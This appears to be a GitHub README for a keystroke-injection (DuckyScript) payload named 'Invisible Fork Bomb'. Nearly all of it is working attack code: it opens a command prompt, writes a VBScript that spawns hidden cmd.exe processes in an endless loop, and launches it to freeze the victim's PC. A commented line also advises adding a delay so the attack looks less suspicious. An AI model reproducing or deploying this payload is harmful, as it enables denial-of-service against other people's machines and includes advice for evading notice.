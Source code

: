# Invisible Fork Bomb
The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

# About...
Author: [BlueArduino20](https://github.com/BlueArduino20/)

Version 1.0

Repository: [https://github.com/BlueArduino20/Invisible_fork_bomb](https://github.com/BlueArduino20/Invisible_fork_bomb)

# Code
<pre><code>
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
REM STRING ping localhost -n 10
REM You can uncomment this ^ to delay 10 seconds before starting the fork bomb. (By this way it's less suspicious)
STRING start forkb.vbs
ENTER
</pre></code>